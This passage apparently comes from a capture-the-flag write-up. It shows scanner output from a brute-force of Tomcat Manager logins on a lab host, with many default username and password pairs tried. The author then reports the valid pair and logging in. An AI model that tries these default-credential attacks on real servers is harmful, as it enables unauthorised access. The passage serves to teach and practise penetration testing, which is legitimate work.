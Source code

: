 ```
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Got the valid credential for tomcat (**admin:tomcat**). I login the Tomcat Manager site with the credential and I'm inside!

![](/images/ctf-round-3-active-directory/13.png)
